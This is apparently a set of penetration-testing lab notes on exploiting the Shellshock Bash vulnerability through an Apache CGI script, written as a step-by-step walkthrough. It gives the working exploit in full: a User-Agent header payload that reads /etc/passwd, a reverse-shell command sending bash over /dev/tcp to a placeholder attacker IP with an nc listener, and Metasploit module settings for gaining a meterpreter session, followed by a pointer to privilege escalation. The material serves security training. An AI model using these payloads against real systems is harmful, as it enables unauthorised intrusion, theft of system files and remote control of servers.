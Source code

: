 # Exploiting Shellshock
>Shellshock, also known as Bashdoor, is a family of security bugs in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.
> 
> In the context of Apache web server, we can utilize any legitimate CGI scripts accessible on the server. Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash. This vulnerability can be exploited both manually (through a proxy like Burp) and automatically with the use of an MSF exploit module.
 
1. This vulnerability existed in older versions of Bash. 
2. In the context of remote exploitation, Apache web servers configured to run **_CGI scripts_** or **_.sh scripts_** are vulnerable to this attack.  
  a. The first service vulnerability: Apache  
  b. The second service vulnerability: Bash  

## Contents 
- [Intro](#)
 - [CVE-2014-6271 (Shellshock | Bashdoor)](#)
 - [Shellshock Details](#)
 - [Shellshock Exploitation](#)
- [Manual Exploit](#)
 - [Initial Scan & Observation](#)
 - [NSE: Check Vulnerability](#)
 - [Burp Suite](#)
- [MetaSploit](#)

## Intro

### [CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271) (Shellshock | Bashdoor)
- Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in the Bash shell (since v1.3) that allow an attacker to execute remote arbitrary commands via Bash, consquently allowing the attacker to obtain remote access to the target system via a reverse shell.
- The Shellschock vulnerability was discovered by Stephane Chazelas on 09/12/2014 and was made public on 09/24/2014.
- Bash is a a *Nix shell that is part of the GNU project and is the default shell for most Linux distros.
- Not very common anymore since most distros have updated the Bash shell. But... you never know.

### Shellshock Details
- The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters:
```
( )  {  : ;  } ; echo; echo; [command];
```
- This vulnerability only affects Linux since Windows does not use Bash and since Windows is not a *Nix-based operating system.
- In the context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.
  - CGI: Common Gateway Protocol
  - CGI scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client (results displayed on the web site/page).
- In Apache, CGI scripts are executed (usually, by default) through a Bash shell.
  - Exploit: include the above trailing characters and follow that with malicious Bash script/code.
 
### Shellshock Exploitation
- **KEY:** In order to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash.
- In the context of Apache web server, we can utilize any legitimate **_CGI scripts_** accessible on the server.
- Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash.
  - If the version of Bash that runs the CGI script is vulnerable, you can exploit it.
- This vulnerability can be exploited both manually (through a proxy like Burp) and automatically with the use of an MSF exploit module.

## Manual Exploit
> The following is from a lab. All of the lab-specific context is retained in order to show the flow of execution, etc. 

### Initial Scan & Observation
- Start with a normal scan of your target system (`-sV`)
  - Apache http server on port 80 (and not much else)
  - confirm it with a broswer (open it up and look at it)
- OBSERVE: On the index page there is a dynamic countdown time stamp.
  - How do they get the time and the countdown to display?
  - This is being accomplished through the use of a CGI script.
  - "View Page Source" will show you the script that is called: `/gettime.cgi`
  - The initial forward slash lets us know the script is stored in the root directory of the web server.
    - This means the script is publicly accessible (just like index.html, et al, that sit in the root directory).
  - So do this: In the URL box of the browser: `[target ip]/gettime.cgi`
    - This will display the results of the script to the client.
    - **_The CGI script is executing commands with Bash_** and then displaying the results of the command executionin the browser window for the client.

### NSE: Check Vulnerability
- Check to see if the server is vulnerable to the Shellshock attack with an NSE script.
```
nmap -sV --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" [target ip]
# or (both work the same)
nmap -sV --script http-shellshock --script-args uri=/gettime.cgi  [target ip]
```

### Burp Suite
> We are going to test the target machine first to see if the vulnerability exists.
> Then we are going to get a reverse shell on the target system. 

#### Start the Proxy & Burp
- Use the FoxyProxy Firefox extension to turn the browser proxy on and off.
  - This sets BurpSuite as a proxy and all traffic through Firefox (between Firefox and the target) will go through Burp.
- Open BurpSuite: Kali menu... Web Application Analysis... BurpSuite.
  - "Next" on the Temporary Project
  - "Start Burp" (with default configs)
  - Disregard the nag pop-up
- In Burp: Click on the "Proxy" tab and check to make sure "Intercept is on" is ON.
  - You can "Forward" anything sitting in queue before we get going.

#### Back to Firefox
- Reload the cgi script (the page: `[target ip]/gettime.cgi`)
- This will GET the page and hold it in the proxy (Burp) until we forward it to the browser

#### Burp Grabbed the Request
- Go back into Burp and you should see the proxy grabbed it.
- We are going to be injecting our special characters into the http header.
- Right-click in the "Raw" tab (where your request was held in queue) and "Send to Repeater"
- Click on the "Repeater" tab

#### Burp :: Repeater
- In the Repeater tab in Burp: delete the current "User-Agent:" information (following the colon, not "User-Agent:").
- Replace that with our own command.  EXAMPLE
- Type in: `() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`
- Send that request with Repeater by clicking the "Send" button.
- You should see a Reponse in the Response window on the right side of the Repeater screen
  - If it worked, you should see the contents of the passwd file on the target displayed in the Response window of Repater in Burp.
 
#### Reverse Shell: Listener
- Set up your listener:
```
nc -nvlp 1234
```
- `-n`        no DNS lookups (we're using IPs, not domain names)
- `-v`        verbose output
- `-l`        listener
- `-p 1234`   port the listener should listen on for incoming calls...

#### Reverse Shell: Burp
- Back in Burp, send the comand for the reverse shell:
```
User-Agent: () { :; }; echo; echo; /bin/bash/ -c 'bash -i >&/dev/tcp/[kali ip]/1234 0>&1'
```
- Initialate an interactive Bash session and send it to our Kali listener; the redirect stdin (keyboard) to the same destination as stdout (display; which has been sent to our Kali listener).

#### Reverse Shell: Kali
- Back in your Kali attack machine, you should have an interactive Bash shell on the target machine. Some commands to run to figure out what you have: `whoami`, `cat /etc/*issue`, `cat /etc/release`, `uname -a`

## MetaSploit
- Crank up msfconsole and the postgresql db if needed. Remember to turn off FoxyProxy and close Burp
```
service postgresql status|start
msfconsole
> search shellshock
  # The auxiliary module is a scanner that will tell you whether or not the server is vulnerable to Shellshock
  # The exploit module for "Variable Code Injection"
  # use the exploit module: exploit/multi/http/apache_mod_cgi_bash_env_exec
> show options
  # You need to set RHOSTS to [target ip]
  # You need to set TARGETURI to    /gettime.cgi
  # Everything else should be okay with defaults
> run
  # That should give you a meterpreter session on the target system
  # Check with sysinfo and getuid
```
- Your next practical step would be privilege escalation. 
